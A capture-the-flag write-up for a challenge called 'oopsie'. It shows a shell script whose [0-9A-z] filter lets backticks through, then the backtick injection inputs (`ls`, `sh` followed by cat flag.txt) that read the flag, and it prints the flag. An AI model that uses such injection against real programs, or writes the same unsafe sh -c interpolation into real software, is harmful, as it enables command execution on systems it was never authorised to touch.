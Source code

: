 # oopsie

## Write-up

- [shell.sh](../shell.sh) :

```sh
#!/bin/sh

MAXLEN=256

exec 2>/dev/null

while echo -n "What's your name? " && read name; do
  name="$(echo -n "${name}" | tr -d '\n\r' | awk '/^[0-9A-z]+$/ { print $0 }')"
  if [ -z "${name}" ]; then
    echo "I don't like your name."
  elif [ "$(echo -n "${name}" | wc -c)" -gt "$MAXLEN" ]; then
    echo "Name too long."
  else
    /bin/sh -c "echo \"Hello, ${name}!\""
  fi
done
```

- Input name is fitered, only characters in range `[0-9A-z]` are allowed

- But in the ASCII range, between `A-Z` and `a-z` there are a few more characters : `` [\]^_` ``

- Since `` ` `` is allowed it can be used to inject commands, for example sending `` `ls` `` returns the output :

```txt
What's your name? `ls`
Hello, bin
dev
flag.txt
lib
lib64
shell.sh
usr!
```

- But since space is disallowed, how can we read the flag using the classic `cat flag.txt` command ?

- Well, we can execute `sh`, right ? But when we pass `` `sh` `` it looks like it's waiting for commands to execute but nothing is printed to the output screen, which is probably due to the fact that `stdout` and `stderr` are not connected to the terminal when performing command substitution using `` `COMMAND` `` (or `$(COMMAND)`)

- But if we think about this a little, since command substitution returns the output of the command after it finishes executing, we can execute `sh`, then inside the newly executed shell, we issue `cat flag.txt`, and then `exit` to exit the shell :

```txt
What's your name? `sh`
cat flag.txt
exit
Hello, shellmates{$MaLL_mi$t4ke_big_con$3qU3ncES}!
```

## Flag

`shellmates{$MaLL_mi$t4ke_big_con$3qU3ncES}`
